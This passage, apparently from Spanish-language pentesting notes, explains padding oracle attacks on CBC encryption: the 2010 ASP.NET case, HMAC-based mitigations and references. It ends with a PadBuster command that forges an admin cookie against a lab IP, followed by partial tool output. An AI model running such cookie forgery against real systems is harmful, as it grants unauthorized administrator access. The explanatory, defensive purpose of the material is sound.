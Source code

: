 Esto significa que el token cifrado contenía credenciales o información sensible como el rol de un usuario.

---

## Ejemplo real

En 2010, una vulnerabilidad en ASP.NET permitió a atacantes usar un oráculo de relleno para extraer archivos protegidos del servidor. Microsoft tuvo que emitir un parche de seguridad crítico. Este ataque fue posible gracias a los mensajes de error detallados que revelaban si el relleno era correcto.

---

## Mitigación recomendada

- **No revelar errores detallados** al validar datos cifrados.
    
- Utilizar **HMAC** o autenticación de mensajes antes del descifrado.
    
- Validar el HMAC **antes** de descifrar cualquier dato.
    
- Comparar firmas HMAC con **comparaciones de tiempo constante**.
    

---

## Referencias y herramientas

- [PadBuster - GitHub (forks y mirrors)](https://github.com/AonCyberLabs/PadBuster)
    
- Artículo sobre CBC y padding oracle: [https://robertheaton.com/2013/07/29/padding-oracle-attack/](https://robertheaton.com/2013/07/29/padding-oracle-attack/)
    

---

## Para encriptar una elevación de privilegios

```bash
padbuster http://192.168.1.60/index.php ycGAxjRY6cQCreynFuWRD1hrX3k9Xr66 8 -cookies "auth=ycGAxjRY6cQCreynFuWRD1hrX3k9Xr66" -plaintext "user=admin"
```

Explicación: como previamente hemos desencriptado la cookie y sabemos su estructura, ahora le pedimos que nos pase un encriptado de un usuario administrador

Resultado:

```bash
+-------------------------------------------+
| PadBuster - v0.3.3                        |
| Brian Holyfield - Gotham Digital Science  |
| labs@gdssecurity.com                      |
+-------------------------------------------+

INFO: The original request returned the following
[+] Status: 200
[+] Location: N/A
[+] Content Length: 1192

INFO: Starting PadBuster Encrypt Mode
[+] Number of Blocks: 2

INFO: No error string was provided...starting response analysis

*** Response Analysis Complete ***

```